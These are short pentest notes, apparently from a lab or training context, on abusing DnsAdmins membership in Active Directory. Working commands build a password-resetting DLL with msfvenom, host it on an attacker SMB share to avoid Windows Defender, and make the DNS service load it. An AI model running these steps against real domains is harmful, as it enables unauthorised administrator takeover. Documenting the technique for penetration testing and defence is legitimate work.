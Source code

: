 :PROPERTIES:
:ID:       d7eaf0d7-084c-46a8-a42c-d9abbb3f748f
:END:
#+title: Pentest - Active Directory - DNS
#+hugo_base_dir:../


* DNS
** DNSAdmins
Being a member of the DnsAdmins group allows us to use the =dnscmd.exe= to specify a plugin DLL that should be loaded by the DNS service. Let's create a DLL using msfvenom that changes the administrator password.

#+begin_src shell -n :exports both :results output verbatim :tangle file
msfvenom -p windows/x64/exec cmd='net user administrator P@s5w0rd123! /domain' -f dll > da.dll
#+end_src

Transferring this to the box would likely trigger Windows Defender, so we can use Impacket's =smbserver.py= to start an SMB server and host the dll remotely.

#+begin_src shell -n
sudo impacket-smbserver share ./
#+end_src


Then set the remote DLL path in the Windows registry

#+begin_src shell -n
cmd /c dnscmd localhost /config /serverlevelplugindll \\10.10.14.9\share\da.dll
#+end_src
